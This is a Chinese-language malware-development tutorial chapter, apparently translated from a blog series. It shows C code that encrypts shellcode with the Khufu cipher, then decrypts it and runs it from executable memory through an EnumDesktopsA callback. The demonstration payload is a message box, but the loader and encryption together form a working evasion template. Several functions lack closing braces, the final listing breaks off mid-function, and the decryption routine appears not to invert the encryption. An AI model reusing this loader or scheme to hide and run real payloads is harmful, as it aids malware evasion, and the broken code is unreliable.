





\newpage
\subsection{恶意软件与密码学研究（第 2 部分，第 30 篇）：Khufu 载荷加密（简单的 C 示例）}

﷽

{width="80%"}

这篇文章是我自己研究如何在恶意软件开发中使用 Khufu Feistel 密码的成果。和往常一样，在探索各种密码学算法时，我决定看看把它用于载荷的加密/解密会有什么效果。

### Khufu

Khufu 是一种作用于 64 位数据分组的密码算法。64 位明文最初被分成两个相等的半块，各 32 位。这两个半块分别称为 L 和 R。最初，两个半块都要与某一组密钥材料做异或运算。

之后，它们要经过一系列类似 DES 的轮次。在每一轮中，S 盒的输入是 L 的最低有效字节。每个 S 盒包含 8 位输入和 32 位输出。在 S 盒中选出 32 位元素后，它与 R 做异或运算。接着，L 循环左移 8 位的整数倍，然后交换 L 和 R。这一轮到此结束。S 盒是动态的，每 8 轮调整一次。

最终，在上一轮完成后，L 和 R 的值再与额外的密钥材料做异或运算。随后，它们被合并起来，形成密文分组。

### 实战示例

首先，我们需要密钥：它是一个用预定义值初始化的 64 字节数组（`key`）：

```cpp
uint8_t key[KEY_SIZE] = {
  0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
  0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
  0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
  0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
  0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
  0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
  0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
  0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F
};
```

我们还需要 S 盒（`sbox`），它是一个包含 256 个元素的数组，用于加密和解密过程中的替换：

```cpp
uint32_t sbox[256];

void khufu_generate_sbox(uint8_t *key, int round) {
  for (int i = 0; i < 256; i++) {
  sbox[i] = (key[(round * 8 + i) % KEY_SIZE] << 24) |
  (key[(round * 8 + i + 1) % KEY_SIZE] << 16) |
  (key[(round * 8 + i + 2) % KEY_SIZE] << 8) |
  key[(round * 8 + i + 3) % KEY_SIZE];
  }

```

Khufu 的 S 盒生成函数——这个函数使用密钥为每一轮生成一个 S 盒。对每个 S 盒元素，函数把四个密钥字节（按相应位置移位）组合成一个 32 位值。

接下来是 Khufu 加密函数：

```cpp
void khufu_encrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | ((uint32_t)key
  [2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | ((uint32_t)key
  [6] << 8) | (uint32_t)key[7];

  for (int round = 0; round < ROUNDS; round++) {
  khufu_generate_sbox(key, round);
  uint32_t temp = left;
  left = right ^ sbox[left & 0xFF];
  right = (temp >> 8) | (temp << 24);
  uint32_t temp2 = left;
  left = right;
  right = temp2;
  }

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

```

这里发生了什么？首先，把 8 字节分组拆成两个 32 位的半块（`left` 和 `right`）。

生成该轮的 S 盒。

用「以 `left` 的最低有效字节为索引的 S 盒值」与 `left` 异或，更新左半块。

把右半块循环移位 8 位。

交换左、右半块。

最后的密钥编排再把左、右半块与密钥值做异或。

接下来是解密过程。解密逻辑是加密的逆过程：

```cpp
void khufu_decrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  for (int round = ROUNDS - 1; round >= 0; round--) {
  uint32_t temp = right;
  right = left ^ sbox[right & 0xFF];
  left = (temp << 8) | (temp >> 24);
  uint32_t temp2 = left;
  left = right;
  right = temp2;
  }

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | ((uint32_t)key
  [2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | ((uint32_t)key
  [6] << 8) | (uint32_t)key[7];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

```

主要逻辑是加密和解密 shellcode 的函数：

```cpp
void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

```

如你所见，shellcode 是逐块加密和解密的。请注意，如果 shellcode 长度不是分组大小的整数倍，加密前会先填充（`0x90`），解密时也做相应处理。

最后，我们需要运行载荷：

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;

```

和往常一样，我使用了 meow-meow 消息框载荷：

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

并通过把它作为回调函数传给 `EnumDesktopsA` 来运行它。

完整的源代码看起来就是这样（`hack.c`）：

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via Khufu algorith
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/21/malware-cryptography-30.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 64

uint8_t key[KEY_SIZE] = {
  0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
  0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
  0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
  0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
  0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
  0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
  0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
  0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F
};

uint32_t sbox[256];

void khufu_generate_sbox(uint8_t *key, int round) {
  for (int i = 0; i < 256; i++) {
  sbox[i] = (key[(round * 8 + i) % KEY_SIZE] << 24) |
  (key[(round * 8 + i + 1) % KEY_SIZE] << 16) |
  (key[(round * 8 + i + 2) % KEY_SIZE] << 8) |
  key[(round * 8 + i + 3) % KEY_SIZE];
  }

void khufu_encrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | 
  ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | 
  ((uint32_t)key[6] << 8) | (uint32_t)key[7];

  for (int round = 0; round < ROUNDS; round++) {
  khufu_generate_sbox(key, round);
  uint32_t temp = left;
  left = right ^ sbox[left & 0xFF];
  right = (temp >> 8) | (temp << 24);
  uint32_t temp2 = left;
  left = right;
  right = temp2;
  }

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | 
  ((uint32_t)key[10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | 
  ((uint32_t)key[14] << 8) | (uint32_t)key[15];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

void khufu_decrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  for (int round = ROUNDS - 1; round >= 0; round--) {
  uint32_t temp = right;
  right = left ^ sbox[right & 0xFF];
  left = (temp << 8) | (temp >> 24);
  uint32_t temp2 = left;
  left = right;
  right = temp2;
  }

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | 
  ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | 
  ((uint32_t)key[6] << 8) | (uint32_t)key[7];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
